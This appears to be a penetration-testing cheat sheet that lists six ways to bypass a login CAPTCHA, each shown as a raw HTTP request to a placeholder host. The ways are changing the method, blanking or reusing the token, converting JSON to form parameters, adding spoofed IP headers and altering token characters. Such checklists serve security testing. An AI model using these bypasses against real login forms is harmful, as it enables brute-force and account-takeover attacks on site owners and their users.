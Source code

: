 

1. Try changing the request method, for example POST to GET

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

Change the method to GET

```
GET /?_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123 HTTP 1.1
Host: target.com
...
```

2. Try remove the value of the captcha parameter

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=&_Username=daffa&_Password=test123
```

3. Try reuse old captcha token

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```

4. Convert JSON data to normal request parameter

```
POST / HTTP 1.1
Host: target.com
...

{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}
```

Convert to normal request

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

5. Try custom header to bypass captcha

```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

6. Change some specific characters of the captcha parameter and see if it is possible to bypass the restriction.

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

Try this to bypass

```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxdxxxaxxcxxx&_Username=daffa&_Password=test123
```




